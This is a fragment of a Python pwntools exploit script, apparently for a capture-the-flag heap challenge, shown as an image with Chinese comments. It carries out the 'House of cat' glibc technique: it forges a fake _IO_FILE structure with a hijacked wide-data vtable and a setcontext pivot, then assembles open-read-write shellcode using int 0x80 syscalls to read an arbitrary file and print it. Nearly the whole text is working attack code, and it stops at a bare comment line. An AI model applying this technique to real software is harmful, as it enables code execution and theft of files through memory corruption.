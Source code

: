 ```python
delete(1)

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())

# House of cat
fake_io_addr = heap_base + 0xb70                    # 伪造的fake_IO结构体的地址
fake_IO_FILE = p64(0)                               
fake_IO_FILE += p64(0) * 5
fake_IO_FILE += p64(1) + p64(2)                     # rcx!=0(FSOP)
fake_IO_FILE += p64(heap_base + 0xfc0 - 0x50)              # _IO_backup_base=rdx
fake_IO_FILE += p64(setcontext+61)                  # _IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)                              # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heap_base+0x1000)               # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)               # _wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(1)                              # mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(io_wfile_jumps+0x30)            # vtable=IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) * 6
fake_IO_FILE += p64(fake_io_addr+0x40)              # rax2_addr

shellcode = asm(
    '''
    mov rax, 0xc0
    mov rbx, 0x500000
    mov rcx, 0x5000
    mov rdx, 3
    mov rsi, 0x100021
    xor rdi, rdi
    xor rbp, rbp
    int 0x80        # mmap2(0x500000, 0x5000, 3, 0x100021, 0, 0)
    
    mov rdi, 0
    mov rsi, 0x502000
    mov rdx, 0x100
    xor rax, rax
    syscall
     
    mov rax, 5
    mov rbx, 0x502000
    xor rcx, rcx
    xor rdx, rdx
    int 0x80        # open(0x502000, 0, 0)
     
    mov rdi, rax
    mov rsi, 0x503000
    mov rdx, 0x100
    xor rax, rax
    syscall
     
    mov rdi, 1
    mov rax, 1
    syscall
    ''', arch='amd64')

#                           rdi                rsi                   rdx                          rsp           rcx(retn_addr)
```
